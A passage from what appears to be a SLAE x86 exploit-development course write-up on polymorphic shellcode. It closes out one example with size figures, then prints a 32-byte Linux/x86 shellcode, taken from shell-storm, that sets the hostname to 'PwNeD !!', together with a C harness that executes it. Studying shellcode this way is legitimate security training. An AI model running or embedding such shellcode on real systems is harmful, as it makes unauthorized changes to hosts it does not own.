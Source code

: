 ```nasm
    	xor ebx,ebx
    	int 0x80
```
Let us test our polymorphic version.
![shellcode-848-poly-running](/assets/SLAE-x86/6.1-shellcode-848-poly-running.PNG)

Original Shellcode 		: **83 bytes**

Polymorphic version 	: **106 bytes (~27.8% increase)**
### #2 - Linux/x86 - sys_sethostname(PwNeD !!, 8) - 32 bytes
The second shellcode changes the hostname to **"PwNed !!"**. The original shellcode can be found [here](http://shell-storm.org/shellcode/files/shellcode-622.php). For this one also we require root privileges to run successfully.
```c
/*
Title  : sethostname "pwned !!"
Name   : 32 bytes sys_sethostname("PwNeD !!",8) x86 linux shellcode
Date   : may, 31 2009
Author : gunslinger_ <yudha.gunslinger[at]gmail.com>
Web    : devilzc0de.com
blog   : gunslingerc0de.wordpress.com
tested on : linux debian
*/

#include <stdio.h>

char *shellcode=
 "\xeb\x11"                    /* jmp    0x8048073 */
 "\x31\xc0"                    /* xor    %eax,%eax */
 "\xb0\x4a"                    /* mov    $0x4a,%al */
 "\x5b"                        /* pop    %ebx */
 "\xb1\x08"                    /* mov    $0x8,%cl */
 "\xcd\x80"                    /* int    $0x80 */
 "\x31\xc0"                    /* xor    %eax,%eax */
 "\xb0\x01"                    /* mov    $0x1,%al */
 "\x31\xdb"                    /* xor    %ebx,%ebx */
 "\xcd\x80"                    /* int    $0x80 */
 "\xe8\xea\xff\xff\xff"        /* call   0x8048062 */
 "\x50"                        /* push   %eax */
 "\x77\x4e"                    /* ja     0x80480c9 */
 "\x65"                        /* gs */
 "\x44"                        /* inc    %esp */
 "\x20\x21"                    /* and    %ah,(%ecx) */
 "\x21";                        /* .byte 0x21 */

int main(void)
{
		fprintf(stdout,"Length: %d\n",strlen(shellcode));
		((void (*)(void)) shellcode)();
		return 0;
}
```